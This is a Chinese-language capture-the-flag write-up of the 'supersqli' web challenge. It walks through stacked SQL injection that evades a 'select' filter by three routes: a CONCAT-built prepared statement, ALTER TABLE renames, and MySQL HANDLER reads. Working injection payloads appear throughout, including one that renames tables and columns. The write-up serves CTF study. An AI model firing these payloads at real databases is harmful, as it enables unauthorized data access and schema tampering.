







## 一题引出对Mysql中handler思考

### 题目

这是一道`攻防世界`里的`supersqli`题目，网址为

https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5417&page=1

### 解题

初始界面为：


通过输入单引号`1'`，根据回显结果可知道这是一个字符型SQL注入




通过`1' order by 2--+`以及`1' order by 3--+`判处列数为2

通过`1' union select 1,2--+`，会返回过滤代码



过滤掉`select`查询数据就比较困难，这里列举`三种`绕过过滤方法

### 方法一：预编译

1. 使用堆叠注入

```
-1';show tables#
```



2. 查看字段

```
-1';show columns from `1919810931114514`#
-1';show columns from `words`#
```





3. 使用预编译查看值

```
-1';sEt @sql = CONCAT('se','lect * from `1919810931114514`;');prEpare stmt from @sql;EXECUTE stmt;#
```



### 方法二：表名列名替换

1. 根据输入`1`返回的结果，我们大体可以猜到SQL语句为：

`select * from wordls where id=1;`

2. 所以我们可以将表`1919810931114514`名字改为`words`，`flag`列名字改为`id`，那么就能得到flag的内容:
   - 修改表名（将表名`user`改为`users`
   - 修改列名（将字段username改为name)

3. 最终paylaod如果：

```
1';alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(50);#
```

4. 然后使用1' or 1=1# 即可查询出`flag`




### 方法三：handler

使用`handler查询`,payload如下：

```
-1';handler `1919810931114514` open;handler `1919810931114514` read first;#
```


### handler知识点

`handler`语句：

```
HANDLER tbl_name OPEN [ [AS] alias]

HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ { FIRST | NEXT }
    [ WHERE where_condition ] [LIMIT ... ]

HANDLER tbl_name CLOSE
```

`handler table_name open`打开一张表

`handler table_name read first`读物第一行内容

`handler table_anme next`依次获取其他行

最后一行执行之后再执行`handler table_name read next`会返回一个空结果


### 参考文章

1. [攻防世界-web-高手进阶区017-supersqli](https://www.cnblogs.com/joker-vip/p/12483823.html)
2. [Mysql HANDLER语句](https://www.jianshu.com/p/81fad5351736)
3. [supersqli](https://blog.csdn.net/nicesa/article/details/106390405)